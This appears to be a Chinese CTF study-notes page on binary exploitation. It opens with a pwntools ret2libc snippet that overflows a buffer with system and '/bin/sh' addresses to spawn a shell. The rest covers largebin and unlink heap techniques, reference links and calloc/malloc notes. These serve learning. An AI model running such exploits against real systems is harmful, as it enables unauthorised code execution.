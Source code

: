 ```
system_offset = libc.symbols['system']
binsh_offset = next(libc.search('/bin/sh'))
print '/bin/sh offset:' + hex(binsh_offset)
libc_base = a - 0xd5b00
print hex(libc_base)
system_address= libc_base + system_offset
binsh_address = libc_base + binsh_offset
 
print hex(system_address)
print hex(binsh_address)
r.sendline("A"*140 + p32(system_address)+ "JUNK"+ p32(binsh_address))
r.interactive()
```
### chunk shrink---利用null off by one覆盖缩小chunk大小
### Largebin的unlink
+ https://veritas501.space/2018/04/11/Largebin%20%E5%AD%A6%E4%B9%A0/
### 0ctf2018 heapstorm2（largebin的利用）
+ https://veritas501.space/2018/04/11/Largebin%20%E5%AD%A6%E4%B9%A0/
+ https://blog.csdn.net/weixin_40850881/article/details/80293143
+ 关于largebin的插入：https://dangokyo.me/2018/04/07/a-revisit-to-large-bin-in-glibc/
+ http://www.pwndog.top/2018/07/27/0ctf-heapstorm%E7%AC%94%E8%AE%B0/


利用linux的/dev/urandom文件产生较好的随机数：https://blog.csdn.net/stpeace/article/details/45829161

calloc() 与 malloc() 的一个重要区别是：calloc() 在动态分配完内存后，自动初始化该内存空间为零，而 malloc() 不初始化，里边数据是未知的垃圾数据。下面的两种写法是等价的：
```
// calloc() 分配内存空间并初始化
char *str1 = (char *)calloc(10, 2);

// malloc() 分配内存空间并用 memset() 初始化
char *str2 = (char *)malloc(20);
memset(str2, 0, 20);
```


注意：largebin才会有四个字段。
```
fd: 在空闲的 chunk 中，指向前一个与之不相邻的空闲 chunk。在已分配的chunk 中，该字段直接指向用户数据区。
bk: （该字段只被空闲的 chunk 所使用）指向后一个与之不相邻的空闲chunk。
fd_nextsize: （该字段只会被空闲的 large chunk 所使用）指向前一个与当前chunk 大小不同的空闲 large chunk。
bk_nextsize: （该字段只会被空闲的 large chunk 所使用）指向后一个与当前chunk 大小不同的空闲 large chunk。
```

```
由于有了检查机制，所以unlink所能做的操作有所限制。具体操作为：

1. 构造p->fd=(p)-12,p->bk=(p)-8
2. 触发unlink(p)
3. 于是unlink操作变为了 (p)=(p)-8 => (p)=(p)-12


所以最终结果为(p)指针-12，(p)可以是任何存放p指针的地方。
虽然操作有限，但在一些场合下可以与堆溢出，user after free等配合，从而任意地址写。

```
参考：
+ http://yunnigu.dropsec.xyz/2017/04/05/%E5%A0%86%E6%BA%A2%E5%87%BA%E4%B9%8Bunlink%E7%9A%84%E5%88%A9%E7%94%A8-1/
